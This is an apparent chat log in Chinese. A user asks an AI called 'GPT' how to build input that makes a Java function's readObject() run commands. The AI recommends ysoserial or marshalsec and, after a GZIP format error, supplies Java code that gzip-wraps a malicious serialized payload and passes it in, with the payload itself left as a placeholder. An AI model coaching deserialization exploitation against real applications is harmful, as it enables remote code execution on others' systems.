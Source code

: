 Je：有一个应用函数如下，当我们可以控制函数入参var0时，如何构造var0，会导致readObject()反序列化命令执行？

```
private static void Env(InputStream var0) throws IOException, ClassNotFoundException {
    GZIPInputStream var2 = new GZIPInputStream(var0);
    JDKSerializer.CustomObjectInputStream var3 = new JDKSerializer.CustomObjectInputStream(var2);
    Map map = (Map) var3.readObject();
}
```

GPT：根据给出的代码，我们可以看到该函数接收一个`InputStream`对象作为参数，并在该输入流上执行反序列化操作，将字节流转换成Java对象。具体来说，该函数会将输入流先解压缩，然后再使用`ObjectInputStream`的`readObject()`方法进行反序列化，得到一个`Map`对象。

因此，为了构造一个可以执行任意命令的入参`var0`，需要构造一个包含了恶意代码的序列化后的字节数组，并将该字节数组封装成一个输入流对象作为`var0`参数传入该函数中。

一种常见的方式是使用Java反序列化漏洞利用工具，例如ysoserial或者marshalsec，生成一个包含了恶意代码的序列化对象，并将其序列化成字节数组。然后使用`ByteArrayInputStream`类将字节数组封装成一个输入流对象，并将该输入流对象作为`var0`参数传入该函数中，从而执行反序列化操作并触发恶意代码的执行。

需要注意的是，由于反序列化漏洞具有高危性和难以发现的特点，应用程序中应尽量避免使用反序列化操作，或者对反序列化输入进行严格的校验和过滤，以防止攻击者利用该漏洞进行恶意攻击。

Je：按照你说的做会报错

```
java.util.zip.ZipException: Not in GZIP format
	at java.util.zip.GZIPInputStream.readHeader(GZIPInputStream.java:165)
	at java.util.zip.GZIPInputStream.<init>(GZIPInputStream.java:79)
	at java.util.zip.GZIPInputStream.<init>(GZIPInputStream.java:91)
	at Test.Env(Test.java:30)
	at Test.main(Test.java:25)
```

GPT：
非常抱歉，我的回答有误。

根据报错信息 `java.util.zip.ZipException: Not in GZIP format`，很可能是因为输入流的前两个字节不是GZIP格式的魔数 `0x8b1f`，导致`GZIPInputStream`类无法正确解析输入流。

因此，如果要构造一个可以执行任意命令的入参`var0`，需要构造一个符合GZIP格式的字节数组，并将该字节数组封装成一个输入流对象作为`var0`参数传入该函数中。

以下是一个示例代码，构造一个包含恶意代码的GZIP格式的输入流：

```java
// 使用Java反序列化漏洞利用工具生成一个包含恶意代码的序列化对象，并将其序列化成字节数组
byte[] maliciousBytes = ...;

// 构造一个GZIP格式的字节数组，将恶意字节数组存储在GZIP数据块中
ByteArrayOutputStream baos = new ByteArrayOutputStream();
GZIPOutputStream gzipOutputStream = new GZIPOutputStream(baos);
gzipOutputStream.write(maliciousBytes);
gzipOutputStream.finish();
byte[] gzipBytes = baos.toByteArray();

// 将GZIP格式的字节数组封装成一个输入流对象，并作为var0参数传入Env函数中
InputStream var0 = new ByteArrayInputStream(gzipBytes);
Env(var0);
```

在上述代码中，首先使用Java反序列化漏洞利用工具生成一个包含恶意代码的序列化对象，并将其序列化成字节数组`maliciousBytes`。接着，使用`ByteArrayOutputStream`类和`GZIPOutputStream`类构造一个GZIP格式的字节数组，将恶意字节数组存储在GZIP数据块中。最后，将GZIP格式的字节数组封装成一个输入流对象`var0`，作为参数传入`Env`函数中，从而执行反序列化操作并触发恶意代码的执行。
